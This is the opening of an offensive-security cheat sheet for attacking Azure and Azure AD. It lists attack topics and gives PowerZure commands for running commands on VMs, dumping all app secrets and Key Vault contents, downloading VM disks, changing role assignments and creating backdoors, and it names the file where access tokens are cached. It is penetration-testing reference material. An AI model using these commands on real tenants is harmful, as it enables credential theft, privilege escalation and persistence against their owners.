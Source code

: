 # Azure

## Summary

* [Tools](#tools)
* [Azure Architecture](#azure-architecture)
* [Azure Storage Account - Access](#azure-storage-account----access)
* [Azure AD vs Active Directory](#azure-ad-vs-active-directory)
* [Azure AD - Enumeration](#azure-ad---enumeration)
* [Azure AD - Sign in with a service principal](#azure-ad---sign-in-with-a-service-principal)
* [Azure AD Connect - Password extraction](#azure-ad-connect---password-extraction)
* [Azure AD Connect - Seamless Single Sign On Silver Ticket](#azure-ad-connect---seamless-single-sign-on-silver-ticket)
* [Azure AD - ADFS Federation Server ~Cloud Kerberos](#azure-ad---adfs-federation-server-cloud-kerberos)
* [Azure AD - Persistence via Automation accounts](#azure-ad---persistence-via-automation-accounts)
* [Azure VM - Execute command as NT SYSTEM with Contributor right](#azure-vm---execute-command-as-nt-system-with-contributor-right)
* [Office365 - Enumerating Users](#office365---enumerating-users)
* [References](#references)

## Tools

:warning: 16 apr 2019 : BloodHound does not support any analysis with AzureAD.    
:warning: Tokens for Azure are cached in `C:\Users\[Name]\.Azure\accessTokens.json`

* **PowerZure** - 
    ```powershell
    require az module !
    $ git clone https://github.com/hausec/PowerZure
    $ ipmo .\PowerZure
    $ Set-Subscription -Id [idgoeshere]
    # Reader
    $ Get-Runbook

    # Contributor
    $ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
    $ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
    $ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
    $ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

    # Owner
    $ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
    
    # Administrator
    $ Create-Backdoor, Execute-Backdoor
    ```
